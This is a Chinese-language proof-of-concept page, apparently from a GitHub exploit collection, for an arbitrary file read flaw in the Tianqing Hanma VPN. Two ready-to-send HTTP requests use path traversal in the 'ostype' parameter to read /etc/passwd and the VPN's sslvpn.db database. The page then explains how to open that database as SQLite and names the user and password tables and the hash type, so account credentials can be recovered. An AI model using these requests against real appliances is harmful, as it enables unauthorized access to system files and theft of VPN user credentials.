




# 天清汉马VPN任意文件读取漏洞



## POC1
```
GET /vpn/user/download/client?ostype=../../../../../../../etc/passwd HTTP/1.1
Host: XXX
Purpose: prefetch
Sec-Purpose: prefetch
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=4, i
Connection: keep-alive
```
## POC2
```
GET /vpn/user/download/client?ostype=../../../../../../../usr/local/conf/sslvpn.db HTTP/1.1
Host: XXX
Purpose: prefetch
Sec-Purpose: prefetch
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=4, i
Connection: keep-alive
```

***tips:<br>***
- **POC1为读取 /etc/passwd文件。<br>**
- **POC2为读取数据库文件，/usr/local/conf/sslvpn.db，可通过db文件找到账号密码。**

## 漏洞复现
**<big>读取 /etc/passwd</big>**



**<big>读取数据库文件</big>**<br>
***路径：/usr/local/conf/sslvpn.db***



>**下载后修改为sqlite数据库db后缀，然后打开**<br>
**用户名表：** ***user_table***<br>
**密码表：** ***user_ssl_auth_ipsec_table***<br>
**加密：** ***sha***<br>

